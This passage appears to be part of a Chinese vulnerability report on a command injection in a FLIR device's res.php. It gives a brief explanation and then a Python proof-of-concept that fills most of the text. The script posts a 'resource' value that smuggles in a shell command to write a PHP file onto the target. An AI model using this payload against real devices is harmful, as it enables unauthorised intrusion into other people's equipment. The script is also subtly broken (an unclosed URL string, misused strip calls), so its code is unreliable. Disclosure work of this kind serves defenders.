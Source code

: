 在 www 目录下 res.php 程序接收 POST 方法请求，若存在 get 参数，并且提供一个 resource 参数，resource 不是 .rtp.hflip 和 .rtp.vflip 时，程序会将 resource  的值与 LD_LIBRARY_PATH=/FLIR/usr/lib /FLIR/usr/bin/rls -o 拼接执行，若 resource  包含命令截断符，会造成命令注入。

![img](.assets/}LCK[K3C5V4C0NZFSJBZL.png)

# 三、漏洞利用&POC

POC：

```php
import requests
import sys
import urllib3
# disable https not verify warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def verify(url):

    try:
        page = "res.php"
        target_url = url + "/" + page
        
        headers = {
            'Host': url.strip("http://").strip("https://"),
            'Content-Type': 'application/x-www-form-urlencoded;charset=UTF-8',
        }
        data = {
            'action':'get',
            'resource': "1; echo '<?php phpinfo(); ?>' > temp.php",
        }
        response = requests.post(target_url,
                                 verify=False,
                                 data=data,
                                 headers=headers)
        print(response.text)
    except Exception as e:
        print(e)
            
if __name__ == '__main__':
    url = 'https://x.x.x.x
    verify(url=url)
```
